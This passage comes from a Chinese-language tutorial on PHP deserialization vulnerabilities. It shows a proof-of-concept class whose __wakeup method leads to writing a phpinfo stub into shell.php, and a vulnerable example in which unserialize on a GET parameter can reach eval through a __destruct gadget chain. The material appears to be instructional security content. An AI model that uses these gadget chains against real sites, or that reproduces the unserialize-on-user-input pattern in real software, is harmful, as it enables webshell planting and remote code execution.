这里代码主要是通过get方法通过test传入序列化好的字符串，然后在反序列化的时候自动调用`__wakeup()`函数，在`__wakeup()`函数中通过new pocdemo()会自动调用对象pocdemo中的`__construct()`，从而把`<?php phpinfo(); ?>`写入到shell.php中。
 
poc代码：

```php
<?php

class l1nk3r{
    var $test = '<?php phpinfo(); ?>';
    function __wakeup(){
        $obj = new pocdemo($this->test);
    }

}

$ser = new l1nk3r();
$result = serialize($ser);
print $result;
file_put_contents('./ser.txt',$result);
?>
```

![][7]
 然后将这个序列化的字符重新导入到poc代码中，反序列化之后，就会生成一个shell.php,并且内容为`<?php phpinfo(); ?>`![][8]
 
## 2.利用普通成员方法 
 
在反序列化的时候，当漏洞/危险代码存在类的普通方法中，就不能指望通过“自动调用”来达到目的了。这时的利用方法如下，寻找相同的函数名，把敏感函数和类联系在一起。

```php
<?php
class l1nk3r {
    var $test;
    function __construct() {
        $this->test = new CodeMonster();
    }
    function __destruct() {
        $this->test->action();
    }
}
class CodeMonster {
    function action() {
        echo "CodeMonster";
    }
}
class CodeMonster1 {
    var $test2;
    function action() {
        eval($this->test2);
    }
}
$class6 = new l1nk3r();
unserialize($_GET['test']);
?>
```


[0]: ./img/rEZ3qqV.png 
[1]: ./img/aU3AjqJ.png 
[2]: ./img/j26be2v.png 
[3]: ./img/FNNF7n3.png 
[4]: ./img/RFv6vuF.png 
[5]: ./img/yIvqMnn.png 
[6]: ./img/quEjqyU.png 
[7]: ./img/nuyqYjY.png 
[8]: ./img/aIvIJ3U.png 
[9]: ./img/BfeqIzR.png 
[10]: ./img/nERvIfy.png 